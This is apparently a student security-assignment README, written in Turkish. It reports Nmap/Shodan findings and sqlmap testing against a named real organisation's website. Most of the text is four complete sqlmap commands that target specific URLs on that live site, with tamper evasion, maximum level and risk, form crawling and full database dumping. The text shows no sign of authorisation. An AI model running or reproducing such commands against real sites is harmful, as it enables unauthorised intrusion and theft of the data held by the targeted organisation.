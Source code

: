 # Bilgi Sistemleri ve Güvenliği

Testler Sqlmap, Nikto, Nmap üzerinden yapılmıştır.

# Nmap

https://www.shodan.io/
sitesinde yapılan taramada orta seviyeli olarak CVE-2014-4078 sonucu elde edildi ve ISS 8.5 kullanıyor kullanıldığı tespit edildi.

# Sqlmap

Sqlmapte yapılan testler sonucunda veritabanı olarak PostgreSQL kullanıldığı tespit edildi. Bunun yanı sıra yapılan testler sonucunda belirli çıktılar elde edildi.


Bu test aşamasında yazılan kodlar:

1-) python sqlmap.py -u "https://www.mustso.org.tr/Bas%C4%B1ndaBiz/Haber/tabid/17222/articleType/ArticleView/articleId/41518/Hayirli-Ramazanlar.aspx" --data="*"  --tamper="space2comment" --dbs --dump --batch

2-) python sqlmap.py -u "https://www.mustso.org.tr/Bas%C4%B1ndaBiz/Haber/tabid/17222/articleType/ArticleView/articleId/41518/Hayirli-Ramazanlar.aspx" --data="*"  --tamper="space2comment" --dbs --level 5 --risk 3 --dump --batch

3-)python sqlmap.py -u "https://www.mustso.org.tr/Default.aspx" --dbs --forms --crawl=2 --tamper=space2comment --random-agent
Bu işlemde veritabanının PostgreSQL olduğu tespit edilmiştir!


4-) python sqlmap.py -u "https://www.mustso.org.tr/Default.aspx" --dbs --forms --crawl=2 --dbms=postgresql --tamper=space2comment --random-agent --time-sec=10 --level=5 --risk=3
